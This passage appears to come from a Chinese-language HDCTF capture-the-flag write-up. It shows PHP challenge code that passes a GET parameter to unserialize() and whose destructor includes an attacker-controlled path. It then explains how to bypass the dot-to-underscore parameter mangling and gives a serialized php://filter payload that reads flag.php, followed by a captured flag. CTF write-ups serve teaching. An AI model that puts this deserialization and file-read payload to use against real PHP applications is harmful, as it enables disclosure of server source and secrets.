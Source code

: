 ```php
    
    protected function setSex($sex){
        if(($sex==='Man') || ($sex==='Woman')){
            $this->sex = $sex;
        }else{
            return False;
        }
        
    }
    
    protected function getName(){
        return $this->name;
    }
    
    public function __construct($name, $age, $sex){
        $this->setName($name);
        $this->setAge($age);
        $this->setSex($sex);
    }
    
    public function __destruct(){
        include($this->info);
        Greet($this->getName());
    }
}

$someone = new Stu('M&G', 20, 'Man');

$s = $_GET['Hai_nan.University'];

if(isset($s)){
    unserialize($s);
} 
```

在 GET 参数时要获取 `Hai_nan.University`，直接 GET 请求传参传 `.` 时会被转化为 `_`

这里传递参数的方式为 `Hai[nan.University` 

payload 同上

```
?Hai[nan.University=O:3:"Stu":1:{s:4:"info";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}
```

HDCTF{9e4e4b277a98bf788b1a1417cc287489}

# signin

F12 看到注释的 base64 解码即为 flag

# nospace
